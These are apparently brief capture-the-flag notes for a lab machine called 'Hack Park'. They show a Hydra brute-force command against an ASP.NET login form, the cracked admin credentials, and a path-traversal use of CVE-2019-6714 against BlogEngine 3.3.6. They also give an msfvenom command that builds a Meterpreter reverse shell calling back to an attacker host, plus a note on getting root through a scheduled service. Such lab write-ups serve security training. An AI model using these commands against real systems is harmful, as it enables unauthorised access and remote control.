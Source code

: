 # HACK PARK

# Brute Forcing Using Hydra

# We got the payload from the post page with Firefox.

```
__VIEWSTATE=WdwzZhn5eBO160NKfAmtvElayShtyClJMCjW02mLkZmMTN8dSWt%2BTKFcA0Ftr7SyloCSDA7LP%2FH2zUF5LdZMG%2FZkBt6S1V3XAPh6EMT97p7XRLaSgoI5%2F1deXegPVG0QHtrArhZx%2F5SuCa0Z7ITARs065u3TZ8B052Zq2ioPV9zsLY9g&__EVENTVALIDATION=E%2BLD8EXEWA0EzQnH1wNizXSBiGMG4Hr71bUOuHUZ%2B3XvAKkCSn%2B2O3SbfivqCD7MHVmiaXHgeuNtYsiAnzRf0cEhei7hn4W0r6L9axbeJ%2BIQsXx1kGZ0eK3ayXBNc7gs4yyaD%2BJHDTRkSKPRMKoPVrQxcEMEPNokF8MlFW95I97bbyst&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

# This is the Hydra command we have to use

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.135.193 http-post-form "/Account/login.aspx:__VIEWSTATE=WdwzZhn5eBO160NKfAmtvElayShtyClJMCjW02mLkZmMTN8dSWt%2BTKFcA0Ftr7SyloCSDA7LP%2FH2zUF5LdZMG%2FZkBt6S1V3XAPh6EMT97p7XRLaSgoI5%2F1deXegPVG0QHtrArhZx%2F5SuCa0Z7ITARs065u3TZ8B052Zq2ioPV9zsLY9g&__EVENTVALIDATION=E%2BLD8EXEWA0EzQnH1wNizXSBiGMG4Hr71bUOuHUZ%2B3XvAKkCSn%2B2O3SbfivqCD7MHVmiaXHgeuNtYsiAnzRf0cEhei7hn4W0r6L9axbeJ%2BIQsXx1kGZ0eK3ayXBNc7gs4yyaD%2BJHDTRkSKPRMKoPVrQxcEMEPNokF8MlFW95I97bbyst&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"

# We replaced the password=x and user=x fields with password=^PASS^, respectively

# CREDENTIALS FOUND: 
    admin:1qaz2wsx

# HYDRA CHEAT SHEET 
# https://i.imgur.com/P0ju4rH.png

# We used CVE-2019-6714 to exploit a bug in BlogEngine v3.3.6
    http://10.10.10.10/?theme=../../App_Data/files
    We have a shell.

# msfvenom reverse shell generation
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.2.87.252 LPORT=4455 -f exe > shell.exe

# Abused a service, uploaded a shell to replace the service that was scheduled to run every 30 seconds and got root.